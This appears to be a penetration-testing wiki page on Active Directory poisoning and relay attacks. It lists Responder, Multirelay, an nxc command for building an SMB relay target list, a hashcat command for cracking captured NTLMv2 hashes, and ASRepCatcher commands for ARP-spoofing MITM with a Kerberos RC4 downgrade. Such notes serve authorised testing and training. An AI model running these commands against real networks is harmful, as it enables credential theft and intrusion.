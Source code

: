 ```yaml
---
layout: wiki
title: Poisoning and Relay
cate1: Internals
cate2: Step 2
description: Poisoning and Relay
keywords: Internals
---
```


# Poisoning and Relay
## Responder
**[Responder](https://github.com/lgandx/Responder)**
  - IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

```
hashcat -m 5600 --force -a 0 responder.hashes /usr/share/wordlists/rockyou.txt
/opt/tools/Responder/ (location of Responder)
```

**Multirelay**
  - [Multirelay with responder](https://www.sikich.com/insight/using-multirelay-with-responder-for-penetration-testing/)

## SMB Relay 
**[SMB Relay]**
```
nxc smb [IP] --gen-relay-list relay.txt
```

## ASRep Relay
Use [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) to MITM AS-REP packets that are traversing across the network through ARP spoofing. This works for all users on the VLAN. This also forces Kerberos authentication to be done via RC4.

```
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

